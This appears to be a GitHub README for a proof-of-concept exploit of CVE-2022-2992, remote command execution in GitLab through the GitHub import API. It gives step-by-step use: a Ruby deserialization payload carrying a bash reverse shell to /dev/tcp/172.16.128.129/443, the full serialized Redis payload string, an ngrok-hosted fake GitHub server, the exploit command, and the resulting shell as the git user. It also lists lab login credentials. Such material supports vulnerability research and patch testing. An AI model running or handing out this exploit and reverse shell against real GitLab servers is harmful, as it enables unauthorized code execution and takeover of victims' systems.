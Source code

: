 # CVE-2022-2992
Authenticated Remote Command Execution in Gitlab via GitHub import.
> A vulnerability in GitLab CE/EE affecting all versions from 11.10 before 15.1.6, all versions starting from 15.2 before 15.2.4, all versions starting from 15.3 before 15.3.2. allows an authenticated user to achieve remote code execution via the Import from GitHub API endpoint.

https://about.gitlab.com/releases/2022/08/30/critical-security-release-gitlab-15-3-2-released/#remote-command-execution-via-github-import 

## Prerequisites
- [Ngrok](https://ngrok.com/)
- Ruby
- Redis
- Python3
- Flask
```
sudo apt install ruby python3 python3-pip
gem install redis 
pip install flask
```
---
## Steps
1) Run `./ngrok http 5000` and save the URL.
2) Now to generate the serialized payload run [payload_gen.rb](https://github.com/CsEnox/CVE-2022-2992/blob/main/payload_gen.rb) and save the payload. Below is an example:
```bash
ruby payload_gen.rb 'bash -c "sh -i >& /dev/tcp/172.16.128.129/443 0>&1"'
```
3) In [server.py](https://github.com/CsEnox/CVE-2022-2992/blob/main/server.py) update NGROK_URL and PAYLOAD variables accordingly. Below is an example:
```py
PAYLOAD = 'ggg\r\n*3\r\n$3\r\nset\r\n$19\r\nsession:gitlab:gggg\r\n$359\r\n\u0004\b[\bc\u0015Gem::SpecFetcherc\u0013Gem::InstallerU:\u0015Gem::Requirement[\u0006o:\u001cGem::Package::TarReader\u0006:\b@ioo:\u0014Net::BufferedIO\u0007;\u0007o:#Gem::Package::TarReader::Entry\u0007:\n@readi\u0000:\f@headerI\"\baaa\u0006:\u0006ET:\u0012@debug_outputo:\u0016Net::WriteAdapter\u0007:\f@socketo:\u0014Gem::RequestSet\u0007:\n@setso;\u000e\u0007;\u000fm\u000bKernel:\u000f@method_id:\u000bsystem:\r@git_setI\"8bash -c \"sh -i >& /dev/tcp/172.16.128.129/443 0>&1\"\u0006;\fT;\u0012:\fresolve'
NGROK_URL = 'https://dc09-41-01-99-69.in.ngrok.io'
```
4) Create an access token for the user on gitlab and select all scopes. Please read the documentation [here](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html)
5) Finally firing off our [exploit.py](https://github.com/CsEnox/CVE-2022-2992/blob/main/exploit.py).

**NOTE**: Before running make sure ngrok and flask server are running.
```py
python3 exploit.py -a lunpy-AMEuQE66KcUtNhcharjm5 -u https://dc09-41-01-99-69.in.ngrok.io -t http://gitlab.example
```
- We get a shell back on port 443
```bash
➜ CVE-2022-2992: nc -nlvp 443
listening on [any] 443 ...
connect to [172.16.128.129] from (UNKNOWN) [172.16.128.180] 40270
sh: 0: can't access tty; job control turned off
$ id
uid=998(git) gid=998(git) groups=998(git)
```

---
### Expected output in each window:
- Ngrok
```http
POST /vakzz/public.git/git-upload-pack 200 OK
GET  /vakzz/public.git/info/refs       200 OK
GET  /api/v3/repos/fake/name           200 OK
GET  /api/v3/repositories/12345        200 OK
GET  /api/v3/rate_limit                200 OK
GET  /api/v3/rate_limit                200 OK
```
- Exploit
```py
[1] Creating Group
[+] Successfully created group: qogjohpykk
[2] Running flask server
[3] Importing Github Repo
 * Serving Flask app "server" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:5000/ (Press CTRL+C to quit)
127.0.0.1 - - [08/Oct/2022 23:46:03] "GET /api/v3/rate_limit HTTP/1.1" 200 -
127.0.0.1 - - [08/Oct/2022 23:46:03] "GET /api/v3/rate_limit HTTP/1.1" 200 -
127.0.0.1 - - [08/Oct/2022 23:46:03] "GET /api/v3/repositories/12345 HTTP/1.1" 200 -
201
127.0.0.1 - - [08/Oct/2022 23:46:04] "GET /vakzz/public.git/info/refs?service=git-upload-pack HTTP/1.1" 200 -
127.0.0.1 - - [08/Oct/2022 23:46:04] "POST /vakzz/public.git/git-upload-pack HTTP/1.1" 200 -
127.0.0.1 - - [08/Oct/2022 23:46:04] "GET /api/v3/repos/fake/name HTTP/1.1" 200 -
[4] Triggering Payload
[+] Command was executed
```
---

## Environment
- Tested on Gitlab 15.3.1 Enterprise Edition
- For building your own environment for testing, copy the [data](https://github.com/CsEnox/CVE-2022-2992/tree/main/data) directory to `/` on your Linux VM.
- Run build.sh to setup the environment. Once the script finishes executing you can login using the following credentials on gitlab.
```
Username: enox
Email: enox@gitlab.example
Password: StrongestGitlabPassword
```
---

## Credits
- https://hackerone.com/reports/1679624 (vakzz)
- https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

If you have any questions reach out to me on [Discord](https://discord.com/) (Enox#4458)
